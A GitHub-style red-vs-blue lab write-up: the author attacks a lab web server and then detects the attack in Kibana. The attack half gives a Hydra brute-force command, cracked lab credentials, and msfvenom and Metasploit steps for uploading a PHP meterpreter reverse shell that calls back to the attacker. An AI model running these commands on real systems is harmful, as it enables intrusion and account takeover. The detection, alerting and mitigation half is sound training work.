# RED-vs-BLUE
Project demostrating my knowledge in defensive security, and pentration testing in a gray box environment.
## Network Topology


| Name | Function | IP Address |
| -------- | --------| --------- |
| Kali VM  | Attacking Machine | 192.168.1.90 |
| Capstone VM | Target Machine | 192.168.1.105 |
| ELK Server | Monitoring Machine | 192.168.1.100 |

## Discover the IP address for the Linux server

-Open up a terminal and run an nmap of the network
`nmap 192.168.1.0/24`
![Nmap scan]{Images/nmap_find_webserver.png}

- Looking at the image above we can see that port 80 is open on 192.168.1.105. Which is the machine that we are looking for.

- We now need to open up a browser and navigate to the web page.
` http://192.168.1.105 `

## Locate the hidden directory on the server

- Navigating through different directories, you will see a reoccurring message.
*Please refer to company_folder/secret_folder for more information*
*ERROR: company_folders/secret_folder/ is no longer accessible to the public*

- Navigate to that directory by updating the path in the url.
` http://192.168.1.105/company_folders_secret_folder `

- The directory asks for authentication in order to access it. Reading the authentication method, it says *For ashton's eyes only*

- This gives us a good idea on what account to target

## Brute force the password for the hidden directory

- Because the folder is password protected, we need to either guess the password or brute force into the directory. In, this case, it would be much more efficient to use a brute force attack, specifically Hydra.

- Command used `hydra -l ashton -P ./wordlist/rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder`

- We can see that Ashton's password is *leopoldo*
- Going back to the *company_folders/secret_folder* enter the information that we found.

- Once inside the directory navigate the the *connect_to_corp_server* We find instructions on how to connect to the server via **WebDAV**
- We can also see ryan's password hash.


## Connect to the server via WebDAV

- Using ryan's password hash we can either put the hash into a file with the proper format and use `john`, or we can use *https://crackstation.net* to crack the passwod. In this case we will be using *crackstation*.

-Naviage to *https://crackstation.net* and enter the hash into the text box.



- The password is revealed as: `linux4u`

## Connect to the server via WebDAV Cont.

- In order to connect to the webserver via WebDAV we need to do as follows.
  - Open the **File System** from the desktop
  - Click **Browse Network**
  - In the URL bar, type: `dav://192.168.1.105/webdav` and enter ryans credentials to log in.

## Upload a PHP reverse shell payload

- We start by creating the payload using **msfvenom**.

- `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > shell.php`



- On the Kali machine we need to set up a listener.
  - Start msfconsole: run `msfconsole`
  - Load module: run `use exploit/multi/handler`
  - Set payload: run `set payload php/meterpreter/reverse_tcp`
  - Set Local Host: run `set LHOST 192.168.1.90`
  - Set Local Port: run `set LPORT 4444`
  - View settings for module: run `show options`
  - Start the listener: run `exploit`



- Now drag and drop the **shell.php** from the Kali desktop to the webserver.


- Connect to the webdav folder by navigating to **192.168.1.105/webdav** and use ryan's credentials. **ryan:linux4u**

- Click the `shell.php` - If the browser is hanging or loading that means its working.

## Using Meterpreter to find flag

- Open the listener and change to the root directory. `cd /`
- Search the system for files that conatin *flag* `find . -iname flag
- Cat out the file found `cat flag.txt`


## Analysis

### Finding the target

- In this gray box environment we were able to find which server was the Web Server by noticing which host had port 80. The service running on this port is http which is an unsecure protocol as it doesn't encrypt it's traffic.

### Locate vulnerable directories and files

- After navigating to the vulnerable target we traveresed through the directories to find hints on which directories conatined sensitive data. We notice that the directory */secret_folder/* is no longer available to the public. 

- Navigating to this directory requires authentication, and a note that states "for ashton's eyes only". This gives us information on what the username might be to access this directory.

### Brute force the hidden directory

- We used the hydra command to brute force the password for ashton's account. Here is a breakdown of the hydra command used.
   - `hydra` - command
   - `-l ashton` - login name
   - `-P /usr/share/wordlists/rockyou.txt` - Point the password to load several passwords from a file.
   - `-s 80` - run command on port 80
   - `-f` - stop command after the first found username/password pair.
   - `-vV` - Verbose mode which shows attempted username and password combinations
   - `192.168.1.105` - targeted address
   - `http-get /company_folders/secret_folder` - send a http-get request to the targeted directory

- Running this command was able to enumerate the password for ashton's account.
- Using the credentials found we were able to find another file on how to connect to the Web Server via WebDav.

### Connecting to Server via WebDav

- WebDav is an extension of the hypertext protocol that allows clients to perform remote Web content authoring operation. Knowing this gives us the ability to add changes to the Web server.

- With the given hash and username associated with the hash we are easily able to crack the hash with `john` or by using crackstation.net.

### Upload reverse shell to server

- With access to WebDav we are able to add files remotely to the Web Server. We do this by creating a payload with `msfvenom` on our Kali machine and uploading them to the shared directory.

- Msfvenom breakdown:
   - `msfvenom` - command
   - `-p php/meterpreter/reverse_tcp` - select payload
   - `lhost=192.168.1.90` - set local host to kali machine
   - `lport=4444` - set local port to 4444
   - `>> shell.php` - output to shell.php

- We now setup a listener with `msfconsole` so when the file is clicked on threw the website, the attacker is able to open a shell on the victim who clicked the shell.php file.

# Incident Analysis with Kibana

## Creating a Dashboard

- In the Azure Jumpbox, open a brower and navigate to `http://192.168.1.100`. After navigating to the website, click on **Create dashboard** in the upper left hand side.

- We now need to add reports to the dashboard. We do this by clicking **Add an existing**. Below are the following reports that I added to the dashboard.
  - HTTP status codes for the top queries [Packetbeat] ECS
  - Top 10 HTTP requests [Packetbeat] ECS
  - Network Traffic Between Hosts [Packetbeat Flows] ECS
  - Top Hosts Creating Traffic [Packetbeat Flows] ECS
  - Connections over time [Packetbeat Flows] ECS
  - HTTP error codes [Packetbeat] ECS
  - Errors vs successful transactions [Packetbeat] ECS
  - HTTP Transactions [Packetbeat] ECS

## Using Queries to Visualize Data

### Signs of a Brute Force

- We now need to query for the offensive traffic.
  - Query: `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105`
  - 
- This image shows us a spike in activity during this small time frame. Any spike in active connections is an indicator that something is off.

  - With the same query above, we are also able to see an unusual amount of HTTP requests sent to the secret folder directory, as well as information on the other directories. 
  - 
- Seeing this tells us that this directory was exposed to a Brute force attack.
  - Knowing this we can adjust our query to add the directory that was targeted to get more information on the attack.
  - Query: `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105 and url.path: /company_folders/secret`
  
  - Upon expanding one of these many logs, we can see that under the user_agent.original that the Hydra tool was being used to brute force this directory.
  - When looking at our dashboard we can see a lot more information on this attack.
  - Panel: `HTTP status codes for the top queries [Packetbeat] ECS`
  - 
  - This report shows excessive 401 status codes which is an indicator of a Brute force attack.

### Signs of Malicious file upload

- With the source and destination query used previously we can look at the `Top 10 HTTP requests [Packetbeat] ECS` panel to see that WebDav was used and what files were accessed inside of it.


- We can see that the *shell.php* file was used. Knowing that `.php` files are regularly used in web applications, this doesn't ultimately state an attack; however in our case it does. It tells us that this file may but malicous because we already found evidence of a brute force attack and have the malicious users ip `192.168.1.105`.

- Diving deeper, we added a `NOT destination.port: 80` filter. This helps us see other types of connections made to our websever that is not HTTP related. Any other types of traffic being made from the malicious users ip `192.168.1.105` should be looked at.

- As we can see, there was a spike in non-http traffic during this time frame.
- Filtering through the logs we are able to see that port `4444` is being used multiple times. This port is the default port for meterpreter and tells us that that the malicious user made a malicious file, specifically the *shell.php* file, and that this malicious file may have been used to open a reverse shell.

## Alerts

### Alerts for Brute Force behavior
- There are a couple of alarms we can set to detect this kind of behavior. One alarm is if the http status code `401 Unauthorized` is returned from any server with a threshold of 10 in one hour. This threshold of 10 will help against false positives for forgotten password.
- Another alert is to trigger when `user_agent.original` includes `hydra` in the name. Although this is very specific, it provides better security specifically for this tool.

### Alerts for malicious file upload
- An alert that we can implement to detect access to the webdav server is to trigger anytime this directory is accessed by a machine other than the machine that should have access.
- An alert to detect malicious file uploads is to trigger anytime a `.php` file is uploaded to the server from unauthorized ip's.
- Another alert we can implement to detect meterpreter sessions is an alert to trigger for any traffic over port `4444`.

## Mitigation

### Mitigation for Brute force
- One way to harden our server from brture force attacks is to drop traffic from the offending IP address for one hour when the `401 Unathuroized` threshold is met.
- Another way is to implement account lockouts to the login page.

### Mitigation for Malicious file upload
- One way to harden the connections to shared WebDav folder is to make the shared folder not accessible from the web interface.
- Another way to harden connection to the shared folder is implement a firewall fule that restricts connections to the shared folder.
- As far as malicious file uploads a similar mitigation strategy is used. This beging to remove the ability to upload files to this directory over the web interface.